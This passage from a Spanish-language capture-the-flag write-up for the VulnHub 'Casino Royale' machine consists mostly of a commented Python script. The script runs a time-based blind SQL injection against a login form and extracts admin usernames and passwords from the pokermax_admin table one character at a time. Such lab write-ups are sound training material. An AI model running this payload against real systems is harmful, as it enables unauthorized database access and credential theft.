 ```python


def makeSQLi():
    data = ""  # Variable donde almacenaremos los datos extraídos

    # Creamos una barra de progreso con Pwntools para indicar el estado del ataque
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)  # Pequeña pausa para dar tiempo a que la barra de progreso inicie correctamente

    # Segunda barra de progreso para mostrar la información extraída
    p2 = log.progress("Data [DB: pokerleague] [Table: pokermax_admin] [Columns: username,password]")

    # Iteramos sobre las posiciones del contenido extraído (se asume un máximo de 50 caracteres)
    for position in range(1, 50):
        for character in characters:
            # Construcción del payload SQL Injection
            # La consulta intenta extraer los datos de la tabla 'pokermax_admin' en la base de datos 'pokerleague'
            # Se usa la función 'group_concat' para concatenar 'username' y 'password'
            payload = "admin' and if(substr((select group_concat(username,0x3a,password) from pokermax_admin),%d,1)='%s',sleep(0.75),1)-- -" % (position, character)

            # Datos que se enviarán en la solicitud POST
            post_data = {
                'op': 'adminlogin',
                'username': payload,  # Inyectamos el payload en el campo 'username'
                'password': 'admin'   # Password falso, no es relevante para el ataque
            }

            # Actualizamos la barra de progreso con el payload actual
            p1.status(post_data['username'])

            # Medimos el tiempo antes de la solicitud
            time_start = time.time()

            # Enviamos la solicitud con el payload SQL Injection
            r = requests.post(login_url, data=post_data)

            # Medimos el tiempo después de la solicitud
            time_end = time.time()

            # Si el tiempo de respuesta es mayor a 0.75 segundos, significa que el carácter es correcto
            if time_end - time_start > 0.75:
                data += character  # Agregamos el carácter encontrado a la variable 'data'
                p2.status(data)  # Mostramos en la barra de progreso la información extraída hasta el momento
                break  # Pasamos al siguiente carácter

    data += ""  # Fin del proceso de extracción

# Si el script se ejecuta directamente, llamamos a la función makeSQLi()
if __name__ == "__main__":
    makeSQLi()
```
Si queremos listar Bases de Datos, Tablas, columnas,etc es cuestion de jugar con los parametros del script, ejecutamos y obtendremos esto
![fuerzabrutasqli](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/fuerzabrutapy.png)
